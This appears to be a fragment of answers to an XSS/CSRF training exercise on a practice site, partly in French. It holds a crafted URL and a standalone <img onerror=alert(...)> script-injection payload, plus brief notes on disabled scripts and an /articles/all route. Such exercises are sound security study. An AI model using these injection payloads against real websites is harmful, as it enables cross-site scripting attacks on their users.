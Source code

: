 https://xss-csrf-tp.herokuapp.com/level/1?page=%3Cimg%20src=%27zzz.jpg%27%20onerror=%20alert(%27BIT CONNEEEEEEEEEEEEEEEEEEEEEEEEECT%27)%20%3E%3C/img%3E

2.1)
<img src='zzz.jpg' onerror=alert("BITCONEECT"); ></img>
2.2)
Les scripts sont désactivés
2.3)
Via /articles/all